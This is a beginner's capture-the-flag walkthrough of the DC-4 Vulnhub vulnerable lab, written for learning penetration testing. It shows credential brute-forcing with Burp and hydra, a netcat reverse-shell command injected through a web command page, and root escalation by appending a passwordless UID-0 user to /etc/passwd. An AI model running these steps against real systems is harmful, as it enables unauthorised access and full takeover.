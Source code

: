 # DC4 Vulnhub Walkthrough

#### Description

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
 
 
 
 
  # Scaning
  
  ### Reconnaissance 
  
  Firstly we have to identify the machine IP address using tool like NetDiscover 
  
  Sudo netdiscover

![Screenshot from 2023-01-25 23-54-43](https://user-images.githubusercontent.com/108471951/214925957-99613a2f-7ac0-43e8-bb30-ade55493badd.png)

Found the IP 192.168.0.158




### Nmap

nmap -sV -sC -p- 192.168.0.158

![Screenshot from 2023-01-26 20-45-39](https://user-images.githubusercontent.com/108471951/214926265-f258b161-2f38-4040-b884-c5e8f71d6ea2.png)

By seeing the result I am not getting where to start, but i seen something new which i never seen before in the result nginx 1.15.10 









searchsploit nginx 1.15.10

![Screenshot from 2023-01-26 20-58-00](https://user-images.githubusercontent.com/108471951/214927477-32801d47-1f7c-4633-88e1-a940675af28c.png)

I tried to find a exploit for nginx 1.15.10 but i didt get







### Http


i visited website 

![Screenshot from 2023-01-26 20-58-15](https://user-images.githubusercontent.com/108471951/214926942-4a251766-d06f-45e7-8481-0cd03c9f3368.png)

Visiting website given a simple form





I decided to use burp suite intruder to crack the user credtials 

![Screenshot from 2023-01-26 23-25-05](https://user-images.githubusercontent.com/108471951/214928193-fa644c0e-9bfd-461f-886c-8ffbe7535f89.png)

I got a user name and passwd [ user = admin - passwd = happy ]


After login with the credentails we got I got a page that had the URL to /command.php

![Screenshot from 2023-01-26 23-26-27](https://user-images.githubusercontent.com/108471951/214928759-7fc341f0-88e0-4613-abb0-608a556fc8f2.png)




I tried running the commands that where present there

![Screenshot from 2023-01-26 23-26-49](https://user-images.githubusercontent.com/108471951/214928807-25f51207-269d-4574-a5de-1674025463c0.png)

Since we can run commands that means we can have reverse shell easily









I intercepted the command request in burp and then sent the netcat command for reverse shell nc+-e/bin/sh IP+PORT

![Screenshot from 2023-01-26 23-36-05](https://user-images.githubusercontent.com/108471951/214929191-e65549c2-9baa-4a79-ba12-87c2409ba32a.png)








Started listening in the given port 1234

![Screenshot from 2023-01-26 23-37-48](https://user-images.githubusercontent.com/108471951/214929563-4bc4be7f-03c9-4553-80cc-7e86eb9bc607.png)


and forweded the request in burp the i got the shell 

![Screenshot from 2023-01-26 23-38-53](https://user-images.githubusercontent.com/108471951/214929712-6b83e4ef-625d-4df6-8772-2767fd0de31e.png)









For TTY shell

Python Script from gtfobins  https://gtfobins.github.io/gtfobins/python/

![Screenshot from 2023-01-26 23-40-06](https://user-images.githubusercontent.com/108471951/214930021-66836e7a-4b5a-4a57-a5b4-c02643fe474d.png)









## Enumeration

python -c 'import os; os.system("/bin/sh")'

cd /home

![Screenshot from 2023-01-26 23-42-19](https://user-images.githubusercontent.com/108471951/214930323-68cf0310-57d9-4563-b320-3cffe87523b3.png)

I found some users 






I made them as a users.txt file

mousepad users.txt

![Screenshot from 2023-01-26 23-48-21](https://user-images.githubusercontent.com/108471951/214930477-d5dba641-b790-4af2-8986-5ebe5a79b564.png)


![Screenshot from 2023-01-26 23-49-00](https://user-images.githubusercontent.com/108471951/214930504-9fab69e8-34c6-4dde-a8aa-b7a059b63f27.png)








cd jim

ls

cd backups


![Screenshot from 2023-01-26 23-55-16](https://user-images.githubusercontent.com/108471951/214930737-1782edfe-2a90-4efd-b42e-000427d94cc8.png)







I found some old passwords 


![Screenshot from 2023-01-27 00-57-35](https://user-images.githubusercontent.com/108471951/214931309-7e67a38d-68a2-487e-a62c-3bc8f461243a.png)










I made a pass.txt file
mousepad pass.txt


![Screenshot from 2023-01-27 00-57-04](https://user-images.githubusercontent.com/108471951/214931483-09ce31e8-0b43-4b54-8cb1-c141de2b02be.png)










### Bruteforce



#### hydra

now i bruteforceing the user id and passwords on ssh port which is open

hydra -L users.txt -P pass.txt ssh://192.168.0.158


![Screenshot from 2023-01-27 00-06-14](https://user-images.githubusercontent.com/108471951/214932104-08b8a0d4-33f0-455d-93f6-aca4bc50f046.png)


I got the user jim password = jibril04











ssh jim@192.168.0.158


![Screenshot from 2023-01-27 00-09-42](https://user-images.githubusercontent.com/108471951/214932330-1c062baa-ae2e-4989-a87e-8dacfde00450.png)









ls

cd mbox


![Screenshot from 2023-01-27 00-12-05](https://user-images.githubusercontent.com/108471951/214932504-2197ac6d-bd29-40f8-ae06-2b22542be8e0.png)


This looks like an email. So let’s check out the /var/mail folder to see if we find anything










cd /vra/mail

![Screenshot from 2023-01-27 00-15-25](https://user-images.githubusercontent.com/108471951/214932779-5e45f284-a4a2-4a93-a60c-e5f5e16b23c1.png)

HereI found a mail to charles in this there’s a password for user charles


user/passwd                charles                     ^xHhA&hvim0y 









su charles

![Screenshot from 2023-01-27 00-16-19](https://user-images.githubusercontent.com/108471951/214933644-49a9f588-1915-43a3-b27a-8b955bd4ad4b.png)











sudo -l 


![Screenshot from 2023-01-27 00-17-53](https://user-images.githubusercontent.com/108471951/214933809-63228a5f-c8b0-49c6-aaec-63d1b9001bc1.png)


Charles can run teehee with sudo rights

We can add a user in /etc/passwd without any password and have that user power of root 










![Screenshot from 2023-01-27 00-18-44](https://user-images.githubusercontent.com/108471951/214934790-6517bdca-061d-4bfb-9764-e34ad7012d0d.png)










echo "Robin::0:0:::/bin/sh" | sudo teehee -a /etc/passwd


![Screenshot from 2023-01-27 00-25-37](https://user-images.githubusercontent.com/108471951/214934692-60d70cdd-eb51-45f4-af52-07687c0107db.png)


we cretaed the user Robin 








su Robin

whoami


![Screenshot from 2023-01-27 00-26-17](https://user-images.githubusercontent.com/108471951/214935010-fba6abf7-3f0a-416d-aad1-45b2232337db.png)
 
 
 
 
 
 
 
 
 
 
 cd /
 
 ls
 
 cd root
 
 ls
 
 
 cat flag.txt
 
 
 
 
 
 ![Screenshot from 2023-01-27 00-27-08](https://user-images.githubusercontent.com/108471951/214935210-2c196d3e-d008-48e8-872b-3678498e1383.png)





 

Sccesfully I have found the flag.


#robinpaul
@robinpaul

